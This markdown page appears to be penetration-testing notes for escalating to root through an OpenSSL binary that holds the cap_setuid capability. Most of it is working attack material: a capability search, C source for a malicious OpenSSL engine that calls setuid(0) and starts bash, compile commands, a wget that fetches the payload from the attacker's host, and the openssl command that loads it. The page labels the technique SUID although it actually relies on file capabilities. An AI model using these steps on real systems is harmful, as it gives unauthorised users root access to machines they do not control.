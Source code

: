 ```yaml
---
title: OpenSSL PrivEsc
desc:
tags: [OpenSSL, PrivEsc, Privilege, SUID]
alts: []
render_with_liquid: true
---
```


## Privilege Escalation (SUID)

Reference: [https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/){target="_blank"}{:rel="noopener"}

1. **Get Capabilities**

    Chack capabilities in the target machine.

    ```sh
    # -r: recursive
    getcap -r / 2>/dev/null
    ```

    If you see the openssl has the capability set as below, you can successfully exploit it.

    ```sh
    /usr/bin/openssl = cap_setuid+ep
    ```

2. **Create the Exploit in C**

    In local machine, you need to have “libssl-dev” to use the header file named “openssl/engine.h” in the exploit.  
    If you don't have it yet, install it.

    ```sh
    sudo apt install libssl-dev
    ```

    Then create "exploit.c".

    ```c
    #include <openssl/engine.h>

    static int bind(ENGINE *e, const char *id) {
        setuid(0); setgid(0);
        system("/bin/bash");
    }

    IMPLEMENT_DYNAMIC_BIND_FN(bind)
    IMPLEMENT_DYNAMIC_CHECK_FN()
    ```

    Now compile it using gcc.

    ```sh
    # -fPIC: for generating a shared object (PIC: Position Independent Code)
    # -c: compile and assemble, but do not link.
    gcc -fPIC -o exploit.o -c exploit.c
    # -shared: create a shared library.
    gcc -shared -o exploit.so -lcrypto exploit.o
    ```

3. **Get the Root Shell**

    Transfer the "exploit.so" to the target machine.

    ```sh
    wget http://<local-ip>:8000/exploit.so
    ```

    Run the exploit and finally you should get the root shell.

    ```sh
    # req: PKCS#10 X.509 Certificate Signing Request (CSR) Management.
    # engine: Engine (loadable module) information and manipulation.
    openssl req -engine ./exploit.so
    ```